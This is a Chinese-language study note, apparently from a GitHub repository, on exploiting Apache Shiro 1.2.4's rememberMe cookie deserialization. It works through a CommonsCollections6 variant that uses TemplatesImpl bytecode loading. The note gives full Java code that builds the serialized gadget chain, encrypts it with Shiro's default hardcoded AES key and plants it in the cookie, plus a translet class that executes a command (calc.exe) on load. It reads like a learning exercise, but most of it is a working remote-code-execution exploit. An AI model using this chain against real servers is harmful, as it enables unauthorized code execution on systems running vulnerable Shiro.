




# CommonsCollections6-Shiro1.2.4笔记

## payload生成


简单打包个shiro项目到tomcat运行，用默认密钥，生成payload

```Java
byte[] payloads = new CommonsCollections6().getPayload("calc.exe");
ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(payloads));
objectInputStream.readObject();
AesCipherService aes = new AesCipherService();
byte[] key =
java.util.Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA==");
ByteSource ciphertext = aes.encrypt(payloads, key);
System.out.printf(ciphertext.toString());
```

直接覆盖`rememberMe`后发现报错

根据报错最后一行我们看看`org.apache.shiro.io.ClassResolvingObjectInputStream`


看看这个`ClassUtils.forName`

跟入后，发现这里是调用`loadClass`我们继续跟入



看着是重写了，classLoader内部用到了 org.apache.catalina.loader.ParallelWebappClassLoader#loadClass 

最后报错的类是 org.apache.commons.collections.Transformer 


这篇文章https://blog.zsxsoft.com/post/35

这里最终得到结论如果反序列化流中包含非Java自身的数组，则会出现无法加载类的错误

这里解决方式是配合TemplatesImpl去加载字节码，调用它的newTransformer即可

后面就是配合触发LazyMap的get方法触发整个过程


## 最终payload

```Java
ClassPool pool = ClassPool.getDefault();
CtClass clazz =
    pool.get(test.class.getName());
TemplatesImpl obj = new TemplatesImpl();
setFieldValue(obj, "_bytecodes", new byte[][]{clazz.toBytecode()});
setFieldValue(obj, "_name", "HelloTemplatesImpl");
setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

Transformer transformer = new InvokerTransformer("getClass", null, null);
Map innerMap = new HashMap();
Map outerMap = LazyMap.decorate(innerMap, transformer);

TiedMapEntry tme = new TiedMapEntry(outerMap, obj);
HashMap expMap = new HashMap();
expMap.put(tme,"keykey");
outerMap.remove(obj);
setFieldValue(transformer, "iMethodName", "newTransformer");

ByteArrayOutputStream barr = new ByteArrayOutputStream();
ObjectOutputStream oos = new ObjectOutputStream(barr);
oos.writeObject(expMap);
oos.close();
return barr.toByteArray();
```

test类

```Java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;


public class test extends AbstractTranslet {
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {}

    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {}

    public test() throws Exception {
        super();
        Runtime.getRuntime().exec("calc.exe");
    }
}
```

